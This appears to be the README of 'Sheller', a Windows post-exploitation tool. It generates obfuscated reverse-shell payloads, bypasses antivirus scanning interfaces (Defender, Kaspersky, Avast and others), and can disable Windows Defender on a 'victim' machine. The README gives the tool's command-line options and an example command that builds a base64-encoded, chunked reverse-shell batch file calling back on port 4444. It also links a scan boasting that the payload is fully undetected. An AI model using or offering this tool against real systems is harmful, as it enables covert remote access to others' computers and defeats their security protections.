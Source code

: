 # Sheller

Sheller is a Windows Post Exploitation Tool to bypass all known Anti-Malware Scanner Interfaces including Defender, Bitdefender, Kaspersky, McAfee, NANO-Antivirus, Kingsoft, Avast, Avira and many more.



For use python3 and powershell (Windows) or pwsh (Linux) are required, the script supports Windows and Linux distribution.
The module sheller is to gain reverse shell to the victims device, providing several amsi bypass module such as encoding, chunking and var randomization.
There is a module to disable any windows defender antivirus feature if executed with admin privileges too.
# Getting started
To see Information:
```python 
python3 sheller.py
```
```
Copyright LukeProducts 2022, all rights reserved
 ┌──────────────────────────────────────┐       
 │                   ▼         ##       │       
 │ ┌─────────────────┘    ┌────##───┐   │       
 │ │AMSI Bypass Tool      │    ##   │   │       
 │ └──────────────────────┘    ##   └─► │       
 │                             ##       │       
 │ © Copyright by LukeProducts ##       │       
 └──────────────────────────────────────┘       


usage: sheller2.0.py [-h] [-s SHELLOUTNAME] [-avkill ANTIVIRUSKILL] [-lh LOCALHOST] [-lp LOCALPORT] [-b64] [-ch] [-v]

optional arguments:
  -h, --help            show this help message and exit
  -s SHELLOUTNAME, --shelloutname SHELLOUTNAME
                        Reverse Shell. Value: fileoutputname. Requires: [-lh] [-lp], optional: [-b64] [-ch] [-v]
  -avkill ANTIVIRUSKILL, --antiviruskill ANTIVIRUSKILL
                        script to deactivate AV of victim if executed with admin privileges. Optional flag: [-b64] [-ch]
  -lh LOCALHOST, --localhost LOCALHOST
                        host for payload ("lh" for automatically assign host to this systems address)
  -lp LOCALPORT, --localport LOCALPORT
                        port for payload (4 digit number recommended)
  -b64                  encodes payload to base64
  -ch                   chunks up base64 encoded string (chunking probability in CHUNK_PROBABILITY)
  -v, --varencode       changes all variables names to an random 10 hex digit encoded into VAR_ENCODING encoding type (default is md5)
  ```


# Example
``
python sheller.py -s xy.bat -lh lh -lp 4444 -b64 -ch -v: 
``

<a href="https://www.virustotal.com/gui/file/2fc4ec778c03a989fd74fa878617dc22e7efc35e8d906b51af611562d1b0b418?nocache=1">fully undetected AMSI Scan Results</a>

[![](https://user-images.githubusercontent.com/73026669/150165109-71b9f841-3b8e-42bd-a502-5d666244eaaf.png)](https://www.virustotal.com/gui/file/2fc4ec778c03a989fd74fa878617dc22e7efc35e8d906b51af611562d1b0b418?nocache=1)

